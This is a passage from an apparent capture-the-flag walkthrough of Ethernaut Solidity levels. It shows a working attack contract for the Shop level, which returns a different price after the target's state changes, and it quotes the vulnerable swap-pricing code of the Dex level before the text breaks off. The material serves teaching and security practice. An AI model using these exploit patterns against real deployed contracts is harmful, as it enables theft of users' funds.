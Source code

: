 Find the attack contract below -

```solidity
contract hack {
    Shop private immutable target;

    constructor (address _target) {
        target = Shop(_target);
    }

    function attack () external {
        target.buy();
    }

    function price() external view returns (uint) {
        if (target.isSold()) {
            return 0;
        }

        return 100;
    }
}
```

So, the key takeaway from this level is that we should never change the state of our contract based on an unknown contract's logic, otherwise, our contract can be easily manipulated by other external contracts.

___
## Level 22 [Dex]

Dex is short for decentralized exchange, which happens to be one of the most popular dapps out there. Simply put, these platforms or at a grass root level, contracts, help in exchanging tokens. The challenge contract given to us is one such dapp which has got two tokens associated with it. The contract initially has 100 tokens each of token 1 and 2, while we are provided with 10 tokens of type. The goal of the challenge is to drain one of the tokens so that it's number becomes 0.

There are two functions of interest here.

```solidity
    function swap(address from, address to, uint256 amount) public {
        require((from == token1 && to == token2) || (from == token2 && to == token1), "Invalid tokens");
        require(IERC20(from).balanceOf(msg.sender) >= amount, "Not enough to swap");
        uint256 swapAmount = getSwapPrice(from, to, amount);
        IERC20(from).transferFrom(msg.sender, address(this), amount);
        IERC20(to).approve(address(this), swapAmount);
        IERC20(to).transferFrom(address(this), msg.sender, swapAmount);
    }

    function getSwapPrice(address from, address to, uint256 amount) public view returns (uint256) {
        return ((amount * IERC20(to).balanceOf(address(this))) / IERC20(from).balanceOf(address(this)));
    }
```
